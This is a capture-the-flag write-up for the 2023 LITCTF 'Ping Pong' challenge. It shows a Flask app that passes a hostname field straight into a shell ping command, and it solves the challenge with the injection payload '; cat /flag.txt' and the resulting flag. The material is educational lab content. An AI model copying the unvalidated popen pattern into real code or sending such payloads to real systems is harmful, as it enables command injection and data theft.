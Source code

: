 ```yaml
---
title: 2023 LITCTF - Ping Pong
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_LITCTF/attached/pingpong.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```

## Analyzation

When receiving ```hostname``` from the ```POST``` method, the command will be executed without validating the data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

Send POST request with the ```hostname``` value
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```